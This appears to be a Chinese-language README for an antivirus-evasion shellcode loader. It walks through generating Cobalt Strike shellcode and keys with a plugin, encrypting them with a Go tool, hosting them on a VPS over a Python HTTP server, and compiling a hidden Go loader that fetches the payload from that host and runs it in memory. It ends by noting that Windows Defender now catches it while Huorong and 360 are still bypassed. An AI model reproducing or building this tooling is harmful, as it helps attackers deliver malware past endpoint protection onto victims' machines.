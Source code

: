 > 1. CS加载Bypass_Remake.cna插件，生成shellcode和加密key1、key2、key3：
"Attack" > "BypassShellCode"

> 2. 生成加密器
**Win：** `go build -ldflags "-s -w" process_shellcode.go`

**Linux：** `GOOS=windows GOARCH=amd64 go build -ldflags "-s -w" process_shellcode.go`

> 3. 将得到的shellcode和key的值分别做加密：
`process_shellcode.exe shellcode > sscode.txt`

`process_shellcode.exe key1 > ky1.txt`

`process_shellcode.exe key2 > ky2.txt`

`process_shellcode.exe key3 > ky3.txt`


> 4. 把key文件和shellcode文件，放在vps上，并用py起一个http服务端：
**Py2：** `python -m SimpleHTTPServer 8080`

**Py3：** `python3 -m http.server 8080`

> 5. 修改shellcode_loader.go中的vps请求地址即可：
```
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlMoveMemory")
	URI           = "http://vps:8080/"
)
```

> 6. 编译go文件：
`go build -ldflags "-s -w -H windowsgui" shellcode_loader.go`

> 7. 运行shellcode_loader.exe即可

> WD已经杀了，火绒和360还是可以绕
